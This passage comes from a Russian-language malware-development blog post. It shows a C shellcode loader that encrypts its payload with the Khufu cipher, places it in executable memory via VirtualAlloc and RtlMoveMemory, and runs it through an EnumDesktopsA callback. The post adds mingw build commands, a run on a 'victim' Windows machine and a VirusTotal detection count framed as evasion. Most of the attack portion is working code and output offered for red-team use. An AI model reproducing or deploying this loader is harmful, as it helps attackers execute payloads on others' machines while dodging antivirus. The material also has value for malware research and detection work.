  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

Таким образом, этот пример демонстрирует, как использовать алгоритм шифрования Khufu для шифрования и дешифрования полезной нагрузки. Для проверки корректности добавлена логика сравнения и вывода данных.   

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем код (на моей `linux`-машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем запускаем его на машине жертвы (`windows 11 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}      

{width="80%"}      

Как можно видеть, все работает идеально! =^..^=     

Рассчитаем энтропию по Шеннону:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Наша полезная нагрузка находится в `.text` секции.    

Далее загружаем `hack.exe` на VirusTotal:    

{width="80%"}      

[https://www.virustotal.com/gui/file/3a83cabfaa701d9b23b4b78c4c81084ada736afdb20e0a67581c9208c1a0249a/detection](https://www.virustotal.com/gui/file/3a83cabfaa701d9b23b4b78c4c81084ada736afdb20e0a67581c9208c1a0249a/detection)     

**Как можно видеть, только 15 из 45 антивирусных движков определяют файл как вредоносный.**     

Но этот результат обусловлен не шифрованием полезной нагрузки, а вызовами некоторых Windows API, таких как `VirtualAlloc`, `RtlMoveMemory` и `EnumDesktopsA`.      

Заметьте, что некоторые антивирусные движки показывают результат с таймаутом:    

{width="80%"}      

Устойчивость алгоритма Khufu к дифференциальному криптоанализу объясняется использованием ключезависимых и скрытых `S-box`ов. Дифференциальная атака была обнаружена против `16`-раундного Khufu, позволяющая восстановить ключ шифрования после `2^31` выбранных открытых текстов (*H. Gilbert и P. Chauvaud, "A Chosen Plaintext Attack of the 16-Round Khufu Cryptosystem," Advances in Cryptology - CRYPTO '94 Proceedings, Springer-Verlag, 1994*). Однако эта атака не применима к большему числу раундов.     

Надеюсь, этот пост будет полезен исследователям вредоносного ПО, C/C++ программистам, повысит осведомленность синих команд об этой интересной технике шифрования и добавит оружие в арсенал красных команд.

[Khufu and Khafre](https://en.wikipedia.org/wiki/Khufu_and_Khafre)     
[H. Gilbert and P. Chauvaud - A Chosen Plaintext Attack of the 16-round Khufu Cryptosystem](https://link.springer.com/chapter/10.1007/3-540-48658-5_33)     
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-07-21-malware-cryptography-30)    
